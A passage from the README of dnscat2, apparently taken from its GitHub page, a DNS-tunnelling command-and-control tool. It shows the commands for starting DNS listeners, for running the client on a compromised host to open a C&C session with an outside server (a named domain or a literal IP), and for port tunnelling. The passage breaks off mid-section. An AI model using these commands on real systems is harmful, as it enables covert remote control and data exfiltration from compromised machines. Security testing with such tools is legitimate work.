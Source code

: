 When the process is running, you can start a new server using basically
the exact same syntax:

    dnscat2> start --dns=port=53532,domain=skullseclabs.org,domain=test.com
    New window created: dns2
    Starting Dnscat2 DNS server on 0.0.0.0:53532
    [domains = skullseclabs.org, test.com]...
    
    Assuming you have an authoritative DNS server, you can run
    the client anywhere with the following:
      ./dnscat2 skullseclabs.org
      ./dnscat2 test.com
    
    To talk directly to the server without a domain name, run:
      ./dnscat2 --dns server=x.x.x.x,port=53532
    
    Of course, you have to figure out <server> yourself! Clients
    will connect directly on UDP port 53532.

You can run as many DNS listeners as you want, as long as they're on
different hosts/ports. Once the data comes in, the rest of the process
doesn't even know which listener data came from; in fact, a client can
send different packets to different ports, and the session will continue
as expected.

### Running a client

The client - which is typically run on a system after compromising it -
is designed to be simple, stable, and portable. It's written in C and
has as few library dependencies as possible, and compiles/runs natively
on Linux, Windows, Cygwin, FreeBSD, and Mac OS X.

The client is given the domain name on the commandline, for example:

    ./dnscat2 skullseclabs.org

In that example, it will create a C&C session with the dnscat2 server
running on skullseclabs.org. If an authoritative domain isn't an option,
it can be given a specific ip address to connect to instead:

    ./dnscat2 --dns host=206.220.196.59,port=5353

Assuming there's a dnscat2 server running on that host/port, it'll
create a session there.

### Tunnels

Yo dawg; I hear you like tunnels, so now you can tunnel a tunnel through
your tunnel!

It is currently possible to tunnel a connection through dnscat2, similar
to "ssh -L"! Other modes ("ssh -D" and "ssh -R") are coming soon as
well!

After a session has started (a command session), the command "listen" is
used to open a new tunnelled port. The syntax is roughly the same as ssh
-L:
